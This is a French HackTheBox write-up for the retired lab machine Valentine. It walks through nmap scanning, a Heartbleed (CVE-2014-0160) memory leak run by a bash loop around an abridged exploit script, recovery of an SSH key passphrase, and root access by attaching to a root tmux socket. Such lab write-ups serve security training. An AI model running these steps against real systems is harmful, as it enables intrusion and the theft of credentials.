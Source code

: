 ```yaml
---
title: "Valentine.htb"
date: 2025-08-04
draft: false
showToc: true
tags: ["HTB", "CTF", "Heartbleed", "Privilege Escalation", "Linux"]
categories: ["HackTheBox", "Easy"]
---
```


> Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux

---

<figure>
  <img src="image.jpg" alt="Capture d’écran de la machine Valentine">
  <figcaption>Capture d’écran de la machine Valentine au moment de l’exploitation</figcaption>
</figure>
<br>

![](difficulty.jpg)

<br>


## 🧭 Reconnaissance

Scan initial :

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

## 🔎 Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## 💉 Exploitation — Heartbleed (CVE-2014-0160)

Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

### 🔧 Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### 🐍 Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

## 🔓 Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🚀 Escalade de privilèges

Après avoir obtenu un shell SSH en tant que l’utilisateur `hype`, j’ai lancé un classique :

```bash
linpeas.sh
```

💡 **LinPEAS** a mis en évidence la présence d’un processus tmux tournant en tant que root, avec cette ligne intrigante :

```bash
root   1040  0.0  0.1  26416  1672 ?  Ss  01:24   0:00 /usr/bin/tmux -S /.devs/dev_sess
```

### 🧠 Analyse

Le socket tmux (`-S /.devs/dev_sess`) est accessible (lecture/exécution) par l’utilisateur `hype`.

Le processus appartient à `root`, ce qui signifie que la session associée pourrait être `root` attachée !

### 🧪 Tentatives manuelles

Liste des sessions disponibles :

```bash
tmux -S /.devs/dev_sess ls
```

Connexion à la session existante :

```bash
tmux -S /.devs/dev_sess attach
```

### ✅ Et là, bingo !

J’ai accédé à une session interactive **root** encore ouverte. Probablement laissée là par un admin négligent, ou par un script de debug.

### 📝 Preuve

```bash
root@Valentine:/# id
uid=0(root) gid=0(root) groups=0(root)
```



## 🏁 Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## 📎 Pièces jointes

- [heartbleed_full.sh](files/heartbleed_full.sh)
- [heartbleed-exploit.py](files/heartbleed-exploit.py)

## 🔚 Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

> 🎯 Entraîne-toi à automatiser ce type d’exploitation, et n’oublie jamais d’examiner les résultats de `linpeas` en détail !

